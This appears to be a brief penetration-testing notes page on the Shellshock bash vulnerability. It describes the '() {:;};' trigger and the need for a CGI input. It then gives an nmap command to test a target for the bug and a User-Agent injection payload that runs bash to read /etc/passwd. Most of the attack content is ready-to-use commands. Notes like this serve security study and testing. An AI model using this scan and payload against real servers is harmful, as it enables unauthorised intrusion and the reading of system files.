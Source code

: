 ```yaml
---
title: 'Shell-Shock Attack'
description: 'Vulnerability in the bash shell.'
pubDate: 'Jul 08 2022'
heroImage: '/placeholder-hero.jpg'
---
```


## Information

- Bash mistakenly executes trailing commands after a series of characters: () {:;};.

- Locate an input that allows you to communicate with Bash.

- CGI file.

```bash

# Verify if vulnerable.
nmap -sCV target --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"

# Intercept with burpsuite, and inject characters in User-Agent.
# () {:;}; echo; echo; /bin/bash -c 'cat /etc/passwd'

```
